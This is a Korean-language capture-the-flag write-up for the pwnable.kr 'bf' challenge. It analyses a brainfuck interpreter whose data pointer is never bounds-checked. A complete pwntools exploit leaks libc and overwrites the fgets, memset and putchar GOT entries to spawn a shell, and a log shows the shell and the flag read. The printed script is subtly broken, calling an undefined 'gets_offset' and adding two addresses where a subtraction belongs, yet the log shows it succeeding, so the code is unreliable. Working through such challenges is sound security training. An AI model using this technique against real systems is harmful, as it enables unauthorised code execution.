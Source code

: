 # 문제  
I made a simple brain-fuck language emulation program written in C. 
The [ ] commands are not implemented yet. However the rest functionality seems working fine. 
Find a bug and exploit it to get a shell. 

Download : http://pwnable.kr/bin/bf
Download : http://pwnable.kr/bin/bf_libc.so

Running at : nc pwnable.kr 9001  

---
# 개요

문제를 해석해보면, 간단한 brain-fuck 언어 에뮬레이션 프로그램을 C언어로 작성하였는데, [ ]안에 들어갈 명령어를 아직 구현하지 못했다고 합니다. 그래서 버그를 찾아서 쉘을 획득하려고 한다고 합니다. 문제 풀이를 위해 바이너리 파일과 해당 바이너리파일에서 참조하는 libc 파일을 제공한다. 먼저 checksec 명령어를 사용하여 해당 바이너리에 어떤 mitigation 이 존재하는지 확인합니다.

```
secretpack@ubuntu:~/Desktop$ pwn checksec bf
[*] '/home/secretpack/Desktop/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

NX가 Enable 이기 때문에 Shellcode 는 사용하지 못하나, Partial RELRO 이기 때문에 got overwrite 는 가능할 것으로 파악됩니다. 이제 IDA로 정적분석을 시도합니다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@4
  int v4; // edx@4
  size_t i; // [sp+28h] [bp-40Ch]@1
  int v6; // [sp+2Ch] [bp-408h]@1
  int v7; // [sp+42Ch] [bp-8h]@1

  v7 = *MK_FP(__GS__, 20);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(&v6, 0, 0x400u);
  fgets((char *)&v6, 1024, stdin);
  for ( i = 0; i < strlen((const char *)&v6); ++i )
    do_brainfuck(*((_BYTE *)&v6 + i));
  result = 0;
  v4 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}
```

main 함수를 디컴파일 한 결과입니다. ```fgets()``` 로 1024(0x400)byte 만큼 입력을 받고, ```do_brainfuck()``` 함수가 호출되어, 한바이트씩 각자의 로직이 수행됩니다. 그리고 전역변수 ```p```에 전역변수 ```tape```의 주소값이 들어갑니다. 이제 ```do_brainfuck()``` 함수를 살펴봅시다.  

```c
int __cdecl do_brainfuck(char a1)
{
  int result; // eax@1
  _BYTE *v2; // ebx@7

  result = a1;
  switch ( a1 )
  {
    case 62:
      result = p++ + 1;
      break;
    case 60:
      result = p-- - 1;
      break;
    case 43:
      result = p;
      ++*(_BYTE *)p;
      break;
    case 45:
      result = p;
      --*(_BYTE *)p;
      break;
    case 46:
      result = putchar(*(_BYTE *)p);
      break;
    case 44:
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case 91:
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

위의 코드를 봤을 때 유효한 코드는 총 6개이며 정리하면 아래와 같습니다.  
* '+' = ++*p
* ',' = *p = ```getchar()```
* '-' = --*p
* '.' = ```putchar(*p)```
* '<' = p -= 1
* '>' = p += 1

---
# 분석

Partial RELRO 이므로 got Overwrite 가 가능합니다. 따라서 libc leak을 수행한 뒤 ```memset@got``` 를 ```gets()```로 변경하고, ```fgets@got```를 ```system()```으로 변경한다, 마지막으로 ```putchar@got```를 ```main()``` 으로 변경하면, ```do_brainfuck()``` 함수에서 다시 ```main()```함수로 돌아와 ```gets()``` 함수로 입력받을 때, "/bin/sh" 를 입력한다면 쉘을 획득할 수 있을 것입니다. 해당 내용을 바탕으로 exploit code를 작성합니다.  
```python
from pwn import*

p = remote("pwnable.kr", 9001)
elf = ELF("./bf")
libc = ELF("bf_libc.so")

main_addr = elf.symbols['main']
fgets_got = elf.got['fgets']
memset_got = elf.got['memset']
putchar_got = elf.got['putchar']

offset_fgets = libc.symbols['fgets']
offset_gets = libc.symbols['gets']
offset_system = libc.symbols['system']

'''
.bss:0804A080 p               dd ?                    ; DATA XREF: do_brainfuck:loc_80485FEr
.bss:0804A080                                         ; do_brainfuck+2Aw ...
.bss:0804A084                 align 20h
.bss:0804A0A0 tape            db    ? ;               ; DATA XREF: main+6Do
'''

p_addr = 0x804a080
tape_addr = 0x804a0a0
binsh = "/bin/sh\0"

#1. libc leak

if tape_addr > fgets_got:
    payload = "<" * (tape_addr - fgets_got)
else:
    payload = ">" * (tape_addr + fgets_got)

payload += ".>" * 4
payload += "<" * 4

#2. overwrite fgets@got -> system

payload += ",>" * 4
payload += "<" * 4

#3. overwrite memset@got -> gets

if fgets_got > memset_got:
    payload += "<" * (fgets_got - memset_got)
else:
    payload += ">" * (memset_got - fgets_got)

payload += ",>" * 4
payload += "<" * 4

#4. overwrite putchar@got -> main

if memset_got > putchar_got:
    payload += "<" * (memset_got - putchar_got)
else:
    payload += ">" * (putchar_got - memset_got)

payload += ",>" * 4
payload += "<" * 4

payload += "."
p.sendlineafter("[]\n", payload)

sleep(2)

fgets_addr = u32(p.recv())
libc_base = fgets_addr - offset_fgets
system_addr = libc_base + offset_system
gets_addr = libc_base + gets_offset

p.send(p32(system_addr))
p.send(p32(gets_addr))
p.send(p32(main_addr))

p.sendlineafter("[]\n", binsh)

p.interactive()

```
```
secretpack@ubuntu:~/Desktop$ python3 bf.py
[+] Opening connection to pwnable.kr on port 9001: Done
[*] '/home/secretpack/Desktop/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/home/secretpack/Desktop/bf_libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
$ 
$ ls
brainfuck
flag
libc-2.23.so
log
super.pl
$ cat flag
#############################
```